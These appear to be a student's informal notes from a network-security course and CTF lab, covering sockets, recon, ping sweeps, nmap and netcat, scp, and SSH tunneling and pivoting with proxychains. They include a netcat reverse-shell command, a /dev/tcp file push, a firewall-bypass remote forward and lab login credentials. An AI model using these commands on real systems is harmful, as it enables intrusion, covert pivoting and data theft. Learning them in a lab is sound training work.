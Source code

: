 

Import Socket: 
  s = socket.socket(socket.FAMILY, socket.TYPE, socket.PROTOCOL)
    FAMILY Constants = AF_INET, AF_INET6,AF_UNIX
    TYPE Constants = SOCK_STREAM,SOCK_DGRAM,SOCK_RAW
    PROTO Constants = 0,IPPROTO_RAW
if you are going to create a tunnel and need to connect a socket through, change the ipaddr to the loopback and the port will be high number port on the tunnel.


Socket types:
  Stream : 
    connection orieneted and sequences; methods for connection establishment and tear-down, used with tcp,sctp,and bluetooth (protocol not needed)
  Datagram:
    connectionless; designed for quickly sending and receiving data, used with upp (Protocol not needed)
  Raw:
    Direct sending and receiving of ip packets without automatic protocol-specific formatting




------------------------------------------------------------------

4 types of recon
  active
      
  passive
      gathering info without direct interaction
      lower risk of discovery
      not as straight forward and requieres more time than active
      trying to find IP addresses and subdomains, external and 3rd party sites, people and technologies, content of interest, vulnerabilities
      whois queries, job site listings, phone numbers, google searches, passive OS fingerprinting
  internal
      sitting inside trying to find more shit inside the network
      packet sniffers ie. tcpdump, wireshark (internal passive)
      dns queries, arp reqests (internal active)
  external
      generally the start, from outside the target system
      OSINT (external passive)
          resolving hostnames to ip addresses, rfc 3912, WHOIS queries  
            DIG:
              typically between primary and secondary dns servers
              if allowed to transfer externally hostnames, IPs and IP blocks can be determined

network scanning
 #linux   for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
 #Windows for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.
   
  21-23,80
  remote to local
    pen testing
  local to remote
    illegal
  local to local
    network admins
  remote to remote
    checking a lotta shit at once
    don't worry about it
  aim:
    wide range target scan
    target specific scan
  method:
    how you're scanning
    single source scan
    distributed scan

  idle scan uses zombie IP, uses another person's IP (that ou have to specify  to do the scan

  find open ports with nmap then use netcat to verify
      echo " ' | nc -v <ip> <port number>




host discover
  nmap, nc, scan scrpt, ping sweep
port discovery
  nmap, nc
port validation
  banner grabbing using nc
follow on actions based on ports found
  if 22 or 23 CONNECT and PASSIVE RECON
  IF 21 or 80 wget -r IP_ADDRESS **OR** wget -r ftp://IP_ADDRESS **OR** firefox
      eom or eog to open them


scan methodology
quick scan 21-23, 80
specific ports based on hints/clues
well knows
chinks of 2000 or first 10000
hail mary, (65535)
-----------------------------------------------------------------

day 5) 

transfering data - tftp, ftp (active/passive), sftp like ftp but with encryption of ssh, ftps, 

ftp <ip> | anonymous(free account on it if enabled) 
 wget -r <ip> | wget -r ftp://<ip>:<port> 

scp <location> <desination>
remote | scp student@<ip>: <file path> <where i want it> 
local | <where its located> student@<ip> :<where you want it> 
remote to remote | scp -3 student@<ip> :<what you want> student@<ip>:<where you want it>



port forward | scp -P 1111 student@localhost:file  <where you want it> 


netcat 
--------------
listning port must be made first 


listner
--------------
nc <ip> <port> < file.txt
nc -l -p 9001 > newfile.txt 
---------------------------
client relay 
-----------
mknod mypipe p (or) mkfifo <name> 

listners 
-------------
nc -l -l 9002 < infile (sends info) 
nc -l -p 9001 > outfile (recieves info) 


tunneling
______________________
creates ssh, then tells what port to go through 

send traffic
-----------------
nc -l -p 1111 > file.txt
cat file.txt > /dev/tcp/<ip>/<port>

requesting a shell
----------------------
nc -c /bin/sh <your ip> <any unfilterd port> 
nc -l -p <port that was unfiltered> -vvv

ssh local port forwarding
-------------------------
                                        (or host name) 
ssh -p <optional alternate port> <user>@<ip> -L <myport>: target:<Target port> -NT 

ex) ssh student@172.16.82.106 -L 1111:localhost:80 -NT (a way to access a private web server this host only has access too. if its an active webserver) 

ssh student@172.16.1.15 -L 1111:172.16.40.10:22
ssh student@localhost -p 1111 -L 2222:172.16.82.106:80 

        (9050)
ssh -D <port> -p <alt port> user@povit ip -NT   (use a 3rd praty software to figure it out; proxychains) any tcp protocoal can  be used, only forwards tcp traffic 
ex) ssh student@172.16.82.106 -D 9050 -nt 

on my box) proxychains ./network (network scan) 
          porxychains ssh student@<ip> -p


proxychains curl ftp://www.onlineftp.ch
proxychains wget -r www.espn.com
proxychains ./network

ssh student@10.10.0.40 -R 1111:localhost: 80 -nt (bypassing firewall to get traffic) 

ss -ntlp (view ports on your loop back) ss -antp (established ports)
------------------------------------------------------

search commands 
----------------------
find / -name hint* 2> /dev/null

find / -name flag* 2> /dev/null




hint on 10.50.44.211
-----------------------
You are on this workstation as Jose Cuervo, a local strongman. You have the ability to execute commands on this Pineland workstation as an actor for Pineland. Jose has a friend in Atropia that has provided him with the ability to SSH to the Allies' pivot point. You (Jose) should look into providing intel on other interesting workstations in the area controlled by Keith Mohammand, a wanted terrorist. Those workstations are not directly reachable from Atropia, but are on the same subnet as Jose's workstation which may be used to exfiltrate information. Jose also has a flag that can be found by using the find command on his system. The directory where the flag is found has been commonly used throughout the network.





 number 10 ssh 
 --------------------------------------
net4_comrade18
privet18


ssh net4_student18@localhost -p 41810 -L 41820:192.168.0.40:5555 -NT
 ssh  net4_student18@localhost -p 41820 -L 41830:172.16.0.60:23 -NT
 use telent
ssh net4_student18@192.168.0.40 -p 5555 -R 41840:localhost:22 -NT
ssh net4_student18@localhost -p 41820 -L 41850:localhost:41840 -NT
ssh net4_comrade18@localhost -p 41850 -D 9050 -NT














